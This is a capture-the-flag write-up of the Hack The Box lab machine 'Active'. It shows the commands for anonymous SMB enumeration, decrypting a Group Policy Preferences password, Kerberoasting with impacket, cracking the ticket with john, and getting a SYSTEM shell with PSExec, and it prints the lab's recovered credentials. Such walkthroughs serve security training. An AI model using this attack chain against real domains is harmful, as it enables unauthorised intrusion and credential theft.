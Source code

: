 ```yaml
---
layout: PostSimple
date: 2020-04-22
title:     "Hack The Box - Active"
tags: ['windows','easy','smb','kerberos','psexec']
layout: post
---
```



![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: <https://www.hackthebox.eu/home/machines/profile/148>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:<br/>
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`<br/>
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/797ea49a2e2846c4a38b012202d15e11.png)<br/>
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












